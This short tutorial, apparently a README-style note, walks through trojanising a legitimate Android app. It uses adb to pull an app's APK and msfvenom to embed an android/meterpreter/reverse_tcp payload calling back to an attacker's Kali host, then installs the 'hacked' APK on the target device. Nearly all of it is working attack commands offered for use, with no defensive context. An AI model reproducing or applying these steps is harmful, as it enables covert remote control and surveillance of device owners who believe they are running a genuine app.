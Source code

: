 

## Inject a Meterpreter payload into a legitimate APK

[https://ibotpeaches.github.io/Apktool/install/](https://ibotpeaches.github.io/Apktool/install/)

> Steps to inject an APP from the play store:

* Download an APP to your Android device.

* Pull it using adb. And write this commands:

```
pm list packages | grep <app_name>
```

```
pm path <app_package_name>
```

```
exit adb shell
```

```
adb pull <path_to_apk/base.apk> -o <my_app.apk>
```

* After you have the APK, use the following msfvenom command to inject it automatically:

```
msfvenom -x <my_app.apk> -p android/meterpreter/reverse_tcp LHOST=<kali_ip> LPORT=<my_port> -o <my_app_hacked.apk>
```

* Uninstall the app from the target device, and install the hacked version using:

```
adb install <my_app_hacked.apk>
```

Interesting Article: [https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)

You must have usb debugging enabled (developer options) and be on the same network.



